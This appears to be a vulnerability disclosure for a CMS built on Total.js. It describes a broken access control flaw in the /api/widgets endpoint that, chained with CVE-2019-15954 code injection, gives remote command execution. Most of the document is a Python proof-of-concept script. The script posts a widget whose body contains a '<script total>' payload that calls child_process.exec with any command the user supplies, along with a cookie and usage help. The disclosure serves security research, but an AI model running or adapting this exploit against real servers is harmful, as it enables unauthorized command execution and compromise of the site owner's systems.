




# Broken Access Control TO RCE

---

> Any user (including  unauthorized users) can call `/api/widgets/`, This leads to rce

**Code Analysis**

> cmsbundle\.src\controllers\admin.js

- `/api/widgets` be allow call any user





- Users aren't grant privileges , also using api :



- Combine ``CVE-2019-15954 (Code Injection)`` -> **RCE unauthorize** 

---

PoC

- (Needing user in website)

```python
import requests
import sys

session = requests.Session()

def request(cookie,cmd):
    headers = {"Content-Type":"application/json; charset=utf-8"}
    cookies = {"__admin":cookie}
    payload = "\"<script total>global.process.mainModule.require(\'child_process\').exec('%s');</script>\"" %(cmd)
    rawBody = '{"name":"meomeo","body":%s,"category":"Inline"}' %(payload)
    response = session.post("http://localhost:8000/admin/api/widgets/", data=rawBody,headers=headers ,cookies=cookies ,)
    if "true" in response.text:
        print("RCE!")
    else:
        print(response.text)


if __name__ == "__main__":
    if len(sys.argv) < 4:
        print("Help: python PoC.py + cookie + cmd")
        sys.exit()
    else:
        url = sys.argv[1]
        cookie = sys.argv[2]
        cmd = sys.argv[3]
        request(cookie,cmd)
```

**demo:**

